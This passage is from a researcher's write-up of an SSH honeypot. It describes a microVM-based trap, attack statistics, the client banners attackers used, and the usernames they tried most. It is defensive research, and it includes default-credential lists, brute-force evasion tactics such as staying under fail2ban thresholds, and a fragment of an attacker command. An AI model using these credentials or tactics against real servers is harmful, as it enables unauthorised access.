









# Five Months of an SSH Honeypot: 530,860 Attempts, 698 microVMs, and a Botnet That Hasn't Learned Anything Since 2018

> **TL;DR** — I exposed a fake SSH server to the internet for 133 days. Every attacker who guesses a password gets their own disposable QEMU microVM, with no network access and a custom kernel. The result: 530,860 authentication attempts, 6,677 unique IP addresses, 12,939 recorded sessions, and a very concrete picture of what the internet's offensive background noise actually looks like.

*French version: [writeup-fr.md](writeup-fr.md)*

---

## Table of contents

- [Why a honeypot](#why-a-honeypot)
- [The architecture](#the-architecture)
- [The raw numbers](#the-raw-numbers)
- [Initial access vector: passwords, and nothing else](#initial-access-vector-passwords-and-nothing-else)
- [Most attempted usernames](#most-attempted-usernames)
- [Most attempted passwords](#most-attempted-passwords)
- [Where they come from](#where-they-come-from)
- [What they type once inside](#what-they-type-once-inside)
- [Identified campaigns](#identified-campaigns)
- [Payloads and their URLs](#payloads-and-their-urls)
- [Takeaways](#takeaways)

---

## Why a honeypot

The starting idea was simple: I wanted data of my own. There is no shortage of reports about "SSH attacks," but they are generally based on vendor telemetry you cannot verify. I wanted to see for myself what hits an ordinary IP address, with no particular reputation, on a run-of-the-mill VPS.

The catch is that a convincing SSH honeypot has to hand out a real shell. And a real shell is a real risk: if the attacker escapes, my machine joins a botnet and I become the one sending malicious traffic. Emulated-shell honeypots like Cowrie sidestep the problem by faking commands, but that is detectable in about three commands, and any halfway serious bot walks away.

Hence the compromise I settled on: **a real shell, in a real VM, disposable, with no network**.

## The architecture



### The SSH server

A single Go binary with no runtime dependencies. The module is called `microvm`, organized as `host/internal/{ssh,vm,db,web,bus,notify}`. It builds on `golang.org/x/crypto/ssh` for the server side, `gorilla/websocket` for live replay in the web UI, and SQLite for persistence.

It runs under systemd as a dedicated `honeypot` user belonging to the `kvm` group (needed to open `/dev/kvm`), with `NoNewPrivileges=yes`, `ProtectSystem=strict`, `PrivateTmp=yes`, and an allowlist of writable paths. The binary and the images sit in `ReadOnlyPaths`.

### The authentication trap

This is the most entertaining part of the design. The server does not accept just any password — that would be far too obvious, and a bot that succeeds on the first try with a random password figures it out immediately. Instead, each attacker is **deterministically assigned** a password drawn from a short, plausible list:

```json
["admin","password","123456","root","toor","ubuntu","debian","raspberry","alpine","changeme"]
```

The attacker has to "find" *their* password. In practice they brute-force, and after some number of tries they land on it. From the bot's point of view this is indistinguishable from a genuinely misconfigured server. From a data point of view it gives me a clean signal: how many attempts before success, and above all the **full list** of everything they tried first.

The server logs are fairly eloquent:

```
2026-09-21T11:43:22 auth user="root" src=101.37.117.27:56158: wrong password (expected "debian")
2026-09-21T11:45:22 auth user="root" src=101.37.117.27:33904: wrong password (expected "debian")
2026-09-21T11:52:22 auth user="root" src=101.37.117.27:39982: wrong password (expected "debian")
```

### The microVM

Once authentication succeeds, the server spins up a VM. Not a container — a real hardware VM with KVM, because I did not want to rely on host kernel isolation against an attacker who is root.

It is `qemu-system-x86_64` with the **`microvm`** machine type: no BIOS, no ACPI, no PCI, just a minimal MMIO bus. It boots in tens of milliseconds and the memory footprint is negligible. The VM gets:

| Component | Choice | Why |
|---|---|---|
| Machine | `microvm` + `-enable-kvm` | near-instant boot, minimal QEMU attack surface |
| Memory | 256 MB | enough for a shell, frustrating for a miner |
| Kernel | custom `vmlinux` 6.12.81 | built without unnecessary drivers, smaller surface |
| Disk | `virtio-blk` on a qcow2 overlay | copy-on-write per attacker |
| Console | `virtio-serial` | the shell, relayed to the SSH session |
| Entropy | `virtio-rng` | otherwise crypto tooling stalls and it smells like a trap |
| **Network** | **no `-netdev` at all** | **the whole point** |

> [!IMPORTANT]
> **No network whatsoever.** This is not a restrictive firewall, and not a filtered network namespace: there is simply no network interface inside the VM. A `wget` fails at the socket layer. That is the guarantee that no downloaded payload can execute or spread, even if something else in the chain has a bug.

The cost of that choice is that I see the *URLs* attackers try to reach, but I do not collect the binaries. It is a deliberate trade-off: I would rather have a chain whose harmlessness I can guarantee than a malware sample collection and a sleepless night.

### Per-attacker persistence

Each attacker is identified by a fingerprint (IP + SSH client version + username). On the first successful connection, a qcow2 overlay is created on top of the read-only base image:

```
honeypot.ext4 (512 MB, shared backing file, immutable)
   └── attacker-1.qcow2     ← attacker 1's changes
   └── attacker-102.qcow2   ← attacker 102's changes
   └── ...                     762 overlays, 875 MB total
```

When the same attacker returns, they find **their** machine with their modifications intact. Their crontabs, their files in `/tmp`, the SSH key they added to `authorized_keys`. That is what makes the trap credible over time, and what makes it possible to observe campaigns returning over several months.

698 VMs were created for 6,677 attackers: the overwhelming majority never get past the login screen.

### The recording

Every session is recorded in **asciinema v2** format, byte by byte, with microsecond timestamps, into a SQLite blob. The input stream (`"i"`, what the attacker types) and the output stream (`"o"`, what the attacker sees) are kept separate — which makes it possible to reconstruct the exact keystrokes, typos and corrections included.

```
[1.404094115,"i","c"]
[1.404901327,"o","c"]
[1.683720568,"i","u"]
[1.684692776,"o","u"]
[1.788702059,"i","r"]
[1.789876997,"o","r"]
[1.892635207,"i","l"]
```

Yes, that is an attacker typing `curl`, one letter at a time, inside a VM with no network. In total: **736 MB of recordings** across 12,939 sessions.

The SQLite schema is deliberately simple:

```sql
attackers      -- fingerprint, IP, SSH client, assigned password, first/last seen
vms            -- qcow2 overlay bound to an attacker
sessions       -- metadata + asciinema blob
login_attempts -- every try, successful or not
failed_logins  -- raw failures, including before an attacker is known
passwords      -- deduplication of attempted passwords
```

---

## The raw numbers

**Observation window: 28 April 2026 to 21 September 2026** — 133 days of activity.

| Metric | Value |
|---|---:|
| Authentication attempts | **530,860** |
| of which failed | 529,207 |
| of which succeeded | 1,656 |
| Success rate | 0.31% |
| Unique IP addresses | **6,677** |
| Distinct source countries | **138** |
| Shell sessions opened | **12,939** |
| microVMs created | 698 |
| Distinct passwords tried | **77,173** |
| Distinct commands observed | 1,855 |
| Average attempts / day | ~3,612 |
| Average sessions / day | ~97 |

### Distribution over time



The June spike (5,773 sessions) corresponds to a massive, tightly concentrated campaign: 18 June alone accounts for 653 sessions. The heaviest days by *attempt* count fall elsewhere — 31,309 on 6 May, 30,634 on 8 September — which shows that mass brute-forcing and shell exploitation are two activities run by different actors.

By hour of day, the distribution is remarkably flat: between 275 and 969 sessions depending on the UTC hour, with no nighttime dip. This is fully automated; nobody sleeps.

---

## Initial access vector: passwords, and nothing else

This is the single clearest result of the whole study, and it deserves to stand alone:

> [!NOTE]
> **Across 530,860 authentication attempts, the number of public-key attempts is zero. Every single attack observed was password brute-forcing.**

Not one attempt to exploit a vulnerability in the SSH protocol. No algorithm downgrade attempt. No Terrapin, no `regreSSHion` (CVE-2024-6387), nothing. What the internet does, 3,600 times a day, is try `root` / `123456`.

One more point: the honeypot listens on **port 2222**, not 22. I checked the startup logs — it has never been on anything else, and there is no NAT redirection.

> [!WARNING]
> **Moving SSH to a non-standard port protects you from nothing.** This honeypot absorbed 3,600 attempts per day on port 2222. Mass scanners sweep 2222, 2022, 22222, and 222 exactly as they sweep 22. Security through obscurity on the port number reduces noise in your logs, not your risk.

The attempt count per attacker is heavily skewed: median of 9 tries, 99th percentile at 723, and a record of **29,077 attempts** from a single address. The low median reflects bots that test three passwords and move on to the next target; the long tail is dedicated brute-forcers grinding away for weeks.

### SSH libraries used: three distinct trades

The `ssh_client` field is the banner the client announces in the very first exchange of the protocol. It is self-declared — therefore forgeable — but that is exactly what makes it interesting: what a tool chooses to announce is a signature in itself.

26 distinct banners were observed, which reduce to **9 libraries**. The breakdown **by authentication attempts**:



But the breakdown **by shell sessions opened** is very nearly the inverse:



That gap is not a statistical curiosity: **it is evidence that brute-forcing and exploiting are two separate trades, using different tooling.**

| Library | IPs | Attempts | % att. | Successes | Att./IP | Sessions | % sess. | Window |
|---|---:|---:|---:|---:|---:|---:|---:|---|
| **Go** (`x/crypto/ssh`) | 2,019 | 370,717 | 69.8% | 554 | 184 | 1,804 | 13.9% | 29 Apr → 21 Sep |
| **libssh** | 2,928 | 96,978 | 18.2% | 728 | 33 | **11,103** | **85.8%** | 29 Apr → 21 Sep |
| **OpenSSH** | 1,349 | 36,543 | 6.9% | 100 | 27 | 12 | 0.1% | 28 Apr → 21 Sep |
| **libssh2** | 261 | 25,178 | 4.7% | 254 | 96 | **0** | 0% | 29 Apr → 21 Sep |
| **russh** (Rust) | 67 | 1,128 | 0.2% | 19 | 17 | 19 | 0.1% | 29 Apr → 17 Sep |
| **SSH.NET** (C#) | 2 | 708 | 0.1% | 0 | 354 | 0 | 0% | 1 Sep → 21 Sep |
| **sshcustom** | 2 | 94 | — | 1 | 47 | 0 | 0% | 3 Jul |
| **paramiko** (Python) | 6 | 34 | — | 0 | 6 | 1 | — | 14 May → 16 Sep |
| **PuTTY** | 3 | 11 | — | 0 | 4 | 0 | 0% | 6 May → 20 Sep |

#### 1. Go: the mass brute-forcing engine

**Go alone accounts for 69.8% of all authentication attempts** — 370,717 tries from 2,019 IP addresses, or 184 tries per IP. A single banner, `SSH-2.0-Go`, which is the `golang.org/x/crypto/ssh` default left untouched.

It is also the client behind the targeted reconnaissance: **1,662 of the 1,663 attempts on the `remi-ziolkowski` username** come from it. Deriving usernames from the domain name is therefore a feature of this specific tool, not a general behavior of the landscape.

Its IPs are widely distributed (CN:327, KR:231, US:149, PK:135). For 554 successful authentications, only 1,804 sessions: it validates far more credentials than it exploits.

That a single codebase concentrates 70% of the offensive SSH traffic reaching me is itself a finding: mass brute-forcing is not a cottage industry, it is a small number of tools reused at enormous scale. And Go has won that niche, for the same reasons it wins elsewhere — static binaries, trivial cross-compilation, cheap concurrency.

#### 2. libssh: the exploiter

libssh makes four times fewer attempts than Go, but **opens 11,103 sessions, 85.8% of every shell session in the corpus.** It is the tool of those who actually come in.

Here the version carries a finding, so I keep it: **`libssh_0.9.6` accounts for 88,850 of the family's 96,978 attempts, and 10,384 of its 11,103 sessions.** Its activity window is the decisive detail — **21 May to 21 September**, matching to the day the Outlaw campaign window identified earlier through the `mdrfckr` key and the `chattr -ia .ssh` block. Two signals collected independently (protocol banner on one side, keystrokes on the other) point at the same actor.

> [!TIP]
> **libssh 0.9.6 was released in December 2020.** A botnet still running on it in 2026 has not recompiled its tooling in five years. That fits an SSH key unchanged since 2018: these operations are not maintained, they are copied.

#### 3. libssh2: pure credential validation

libssh2 — a different library from libssh, despite the name — shows the cleanest profile in the corpus: 25,178 attempts, **254 successful authentications, and zero shell sessions.**

These actors guess the password, authentication succeeds, and they disconnect without ever requesting a shell. They are not trying to exploit the machine: they are building an inventory of valid credentials. This is the upstream half of the two-tier market described earlier, isolated in pure form in the data.

SSH.NET shows exactly the same profile on a smaller scale: 708 attempts, no sessions — and in its case, no successes either.

#### 4. OpenSSH: the banner everybody forges

The OpenSSH family totals 1,349 IPs and 36,543 attempts for **12 sessions**. That is the anomaly in the table: the most legitimate library in the world is also the one that exploits almost nothing. The explanation is simple — most of these banners are fake, and they cover two opposite strategies.

**`SSH-2.0-OpenSSH`, with no version number** (31,101 attempts). No released version of OpenSSH announces that: the real banner always carries the version. This is custom tooling with a truncated banner, and its profile is extreme: **just 5 IP addresses, i.e. 6,220 tries per IP**, with the widest dictionary in the corpus — **7,620 distinct usernames** and 24,380 passwords. Five dedicated machines, in RU, FR, UA, and US, hammering away for four and a half months.

**`SSH-2.0-OpenSSH_7.4`** (4,549 attempts). OpenSSH 7.4 dates from December 2016, the CentOS 7 era. The profile is exactly inverted: **1,313 IP addresses at 3 tries per IP**, and zero sessions. An extremely wide, extremely thin sheet, from CN:248, IN:166, KR:133. The banner is presumably chosen to blend into the noise of old servers, and the "three tries then move on" pattern is designed to stay under `fail2ban` thresholds.

These two entries illustrate the two opposite evasions: concentrate on few IPs and accept being blocked, or dilute across thousands of IPs and never trip a threshold.

The rest of the family is residual, but one entry is worth flagging: **a South African IP announcing `OpenSSH_8.0`, active on 20–21 September**, trying the usernames `redis`, `web3`, `wallet`, and `solana`. Explicit crypto targeting, and the most recent campaign in the corpus.

#### 5. The long tail: modern tooling and humans

- **russh** (Rust): 67 IPs, 1,128 attempts, 19 sessions. Few usernames tried (5 distinct) but 135 passwords — targeting, not sweeping. Recent tooling, worth watching: this is probably what tomorrow's brute-forcing looks like.
- **SSH.NET** (C#/.NET ecosystem): only appeared in September, 2 IPs, 708 attempts exclusively against `root`, 382 passwords, no successes. Windows tooling.
- **sshcustom**: 2 Turkish IPs, 94 attempts on a single day. Someone testing their own tool — the banner does not even try to lie.
- **paramiko** (Python): 6 IPs, 34 attempts. Hand-rolled scripts.
- **PuTTY**: 3 IPs, 11 attempts total. PuTTY is a Windows GUI client — nobody automates brute-forcing with it. These are almost certainly humans, typing a few credentials by hand and giving up.

#### Turning this into detection

> [!TIP]
> **The client banner is a very low-false-positive detection signal.** On a production server, administrators use OpenSSH, and legitimate automation (Ansible, Terraform) announces OpenSSH or paramiko. A **libssh**, bare **`SSH-2.0-Go`**, **libssh2**, or version-less **`SSH-2.0-OpenSSH`** banner has almost no reason to appear on a typical estate. Those four signatures alone cover **92.7%** of the attempts I observed.
>
> And crucially: the banner is exchanged **before authentication**, in the protocol's first packet. It can therefore be used to reject a connection without ever evaluating a single credential.
---

## Most attempted usernames



**`root` accounts for 78.6% of all attempts.** The rest is a long tail of service accounts and vendor defaults.

| # | Username | Attempts | Category |
|---:|---|---:|---|
| 1 | `root` | 417,517 | superuser |
| 2 | `admin` | 9,086 | generic |
| 3 | `ubuntu` | 7,779 | cloud default |
| 4 | `user` | 3,408 | generic |
| 5 | `test` | 2,603 | generic |
| 6 | `remi-ziolkowski` | 1,663 | **targeted — see below** |
| 7 | `postgres` | 1,093 | service |
| 8 | `ftpuser` | 992 | service |
| 9 | `deploy` | 971 | CI/CD |
| 10 | `debian` | 861 | cloud default |
| 11 | `remiziolkowski` | 774 | **targeted** |
| 12 | `dev` | 771 | generic |
| 13 | `oracle` | 723 | service |
| 14 | `support` | 713 | generic |
| 15 | `user1` | 710 | generic |
| 16 | `git` | 696 | service |
